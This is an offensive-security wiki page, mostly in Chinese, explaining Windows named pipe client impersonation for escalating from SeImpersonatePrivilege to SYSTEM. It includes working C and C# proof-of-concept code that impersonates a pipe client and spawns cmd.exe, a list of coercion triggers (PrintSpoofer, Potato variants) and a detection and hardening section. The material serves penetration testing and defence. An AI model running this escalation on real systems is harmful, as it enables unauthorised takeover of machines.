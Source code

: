 # Named Pipe Client Impersonation

{{#include ../../banners/hacktricks-training.md}}

Named Pipe client impersonation 是一种本地提权原语，允许 named-pipe 服务器线程采用连接到它的客户端的安全上下文。实际上，能够以 SeImpersonatePrivilege 运行代码的攻击者可以强制一个有特权的客户端（例如 SYSTEM 服务）连接到攻击者控制的 pipe，调用 ImpersonateNamedPipeClient，将生成的令牌复制为主令牌，然后以该客户端的身份（通常为 NT AUTHORITY\SYSTEM）创建进程。

本页着重介绍核心技术。要了解将 SYSTEM 诱导到你控制的 pipe 的端到端利用链，请参见下文提到的 Potato family 页面。

## TL;DR
- Create a named pipe: \\.\pipe\<random> and wait for a connection.
- Make a privileged component connect to it (spooler/DCOM/EFSRPC/etc.).
- Read at least one message from the pipe, then call ImpersonateNamedPipeClient.
- Open the impersonation token from the current thread, DuplicateTokenEx(TokenPrimary), and CreateProcessWithTokenW/CreateProcessAsUser to get a SYSTEM process.

## 要求和关键 APIs
- 调用进程/线程通常需要的权限：
- SeImpersonatePrivilege：用于成功模拟连接的客户端并使用 CreateProcessWithTokenW。
- 或者，在模拟 SYSTEM 之后，你可以使用 CreateProcessAsUser，这可能需要 SeAssignPrimaryTokenPrivilege 和 SeIncreaseQuotaPrivilege（在你模拟 SYSTEM 时这些权限已满足）。
- 核心使用的 API：
- CreateNamedPipe / ConnectNamedPipe
- ReadFile/WriteFile (在模拟之前必须至少读取一条消息)
- ImpersonateNamedPipeClient and RevertToSelf
- OpenThreadToken, DuplicateTokenEx(TokenPrimary)
- CreateProcessWithTokenW or CreateProcessAsUser
- 模拟级别：要在本地执行有用操作，客户端必须允许 SecurityImpersonation（许多本地 RPC/named-pipe 客户端的默认设置）。客户端在打开 pipe 时可以使用 SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION 降低此级别。

## Minimal Win32 workflow (C)
```c
// Minimal skeleton (no error handling hardening for brevity)
#include <windows.h>
#include <stdio.h>

int main(void) {
LPCSTR pipe = "\\\\.\\pipe\\evil";
HANDLE hPipe = CreateNamedPipeA(
pipe,
PIPE_ACCESS_DUPLEX,
PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT,
1, 0, 0, 0, NULL);

if (hPipe == INVALID_HANDLE_VALUE) return 1;

// Wait for privileged client to connect (see Triggers section)
if (!ConnectNamedPipe(hPipe, NULL)) return 2;

// Read at least one message before impersonation
char buf[4]; DWORD rb = 0; ReadFile(hPipe, buf, sizeof(buf), &rb, NULL);

// Impersonate the last message sender
if (!ImpersonateNamedPipeClient(hPipe)) return 3; // ERROR_CANNOT_IMPERSONATE==1368

// Extract and duplicate the impersonation token into a primary token
HANDLE impTok = NULL, priTok = NULL;
if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &impTok)) return 4;
if (!DuplicateTokenEx(impTok, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &priTok)) return 5;

// Spawn as the client (often SYSTEM). CreateProcessWithTokenW requires SeImpersonatePrivilege.
STARTUPINFOW si = { .cb = sizeof(si) }; PROCESS_INFORMATION pi = {0};
if (!CreateProcessWithTokenW(priTok, LOGON_NETCREDENTIALS_ONLY,
L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
0, NULL, NULL, &si, &pi)) {
// Fallback: CreateProcessAsUser after you already impersonated SYSTEM
CreateProcessAsUserW(priTok, L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}

RevertToSelf(); // Restore original context
return 0;
}
```
注意：
- 如果 ImpersonateNamedPipeClient 返回 ERROR_CANNOT_IMPERSONATE (1368)，请确保先从管道读取数据，并确认客户端没有将模拟限制为 Identification 级别。
- 优先使用 DuplicateTokenEx 并指定 SecurityImpersonation 和 TokenPrimary 来创建适合用于创建进程的主令牌。

## .NET 快速示例
在 .NET 中，NamedPipeServerStream 可以通过 RunAsClient 进行模拟。一旦模拟成功，复制线程令牌并创建进程。
```csharp
using System; using System.IO.Pipes; using System.Runtime.InteropServices; using System.Diagnostics;
class P {
[DllImport("advapi32", SetLastError=true)] static extern bool OpenThreadToken(IntPtr t, uint a, bool o, out IntPtr h);
[DllImport("advapi32", SetLastError=true)] static extern bool DuplicateTokenEx(IntPtr e, uint a, IntPtr sd, int il, int tt, out IntPtr p);
[DllImport("advapi32", SetLastError=true, CharSet=CharSet.Unicode)] static extern bool CreateProcessWithTokenW(IntPtr hTok, int f, string app, string cmd, int c, IntPtr env, string cwd, ref ProcessStartInfo si, out Process pi);
static void Main(){
using var s = new NamedPipeServerStream("evil", PipeDirection.InOut, 1);
s.WaitForConnection();
// Ensure client sent something so the token is available
s.RunAsClient(() => {
IntPtr t; if(!OpenThreadToken(Process.GetCurrentProcess().Handle, 0xF01FF, false, out t)) return; // TOKEN_ALL_ACCESS
IntPtr p; if(!DuplicateTokenEx(t, 0xF01FF, IntPtr.Zero, 2, 1, out p)) return; // SecurityImpersonation, TokenPrimary
var psi = new ProcessStartInfo("C\\Windows\\System32\\cmd.exe");
Process pi; CreateProcessWithTokenW(p, 2, null, null, 0, IntPtr.Zero, null, ref psi, out pi);
});
}
}
```
## 常见触发/强制方式以使 SYSTEM 连接到你的 named pipe
这些技术强制特权服务连接到你的 named pipe，以便你 impersonate 它们：
- Print Spooler RPC trigger (PrintSpoofer)
- DCOM activation/NTLM reflection variants (RoguePotato/JuicyPotato[NG], GodPotato)
- EFSRPC pipes (EfsPotato/SharpEfsPotato)

See detailed usage and compatibility here:

-
{{#ref}}
roguepotato-and-printspoofer.md
{{#endref}}
-
{{#ref}}
juicypotato.md
{{#endref}}

If you just need a full example of crafting the pipe and impersonating to spawn SYSTEM from a service trigger, see:

-
{{#ref}}
from-high-integrity-to-system-with-name-pipes.md
{{#endref}}

## 故障排查与注意事项
- 在调用 ImpersonateNamedPipeClient 之前，必须至少从 pipe 读取一条消息；否则会遇到 ERROR_CANNOT_IMPERSONATE (1368)。
- 如果客户端以 SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION 连接，服务器无法完全 impersonate；通过 GetTokenInformation(TokenImpersonationLevel) 检查令牌的 impersonation level。
- CreateProcessWithTokenW 要求调用者具有 SeImpersonatePrivilege。如果失败并返回 ERROR_PRIVILEGE_NOT_HELD (1314)，在你已经 impersonated SYSTEM 后使用 CreateProcessAsUser。
- 如果你加固了 pipe，确保其 security descriptor 允许目标服务连接；默认情况下，位于 \\.\pipe 下的 pipes 的访问由服务器的 DACL 决定。

## 检测与加固
- 监控 named pipe 的创建与连接。Sysmon Event IDs 17 (Pipe Created) 和 18 (Pipe Connected) 有助于建立合法 pipe 名称的基线，并捕捉在令牌操作事件之前出现的不寻常、看起来随机的 pipes。
- 查找如下序列：进程创建 pipe，某个 SYSTEM 服务连接，然后创建进程以 SYSTEM 身份生成子进程。
- 通过从非必要的服务账号移除 SeImpersonatePrivilege 并避免使用高权限的非必要服务登录，减少暴露面。
- 防御性开发：在连接不受信任的 named pipes 时，指定 SECURITY_SQOS_PRESENT 并使用 SECURITY_IDENTIFICATION，以避免服务器在非必要情况下完全 impersonate 客户端。

## 参考
- Windows: ImpersonateNamedPipeClient 文档（impersonation requirements and behavior）。 https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient
- ired.team: Windows named pipes privilege escalation（演练与代码示例）。 https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation

{{#include ../../banners/hacktricks-training.md}}

